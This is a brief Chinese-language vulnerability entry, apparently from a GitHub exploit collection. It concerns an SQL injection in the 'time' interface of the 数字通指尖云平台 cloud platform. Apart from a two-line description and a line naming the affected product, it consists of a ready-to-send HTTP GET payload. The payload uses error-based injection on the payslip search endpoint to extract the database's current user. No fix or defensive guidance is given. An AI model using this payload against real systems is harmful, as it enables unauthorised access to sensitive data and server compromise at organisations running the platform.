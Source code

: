 **漏洞描述：**

数字通指尖云平台time接口存在SQL注入漏洞，可通过SQL注入获取敏感信息，取得服务器权限。

**影响版本：**

数字通指间云平台

**Payload：**

```jsx
GET /payslip/search/index/userid/time?PayslipUser%5Buser_id%5D=1%20AND%20(SELECT%201111%20FROM(SELECT%20COUNT(*),CONCAT((MID((IFNULL(CAST(CURRENT_USER()%20AS%20NCHAR),0x20)),1,54)),FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)&&yt0 HTTP/1.1
```

---
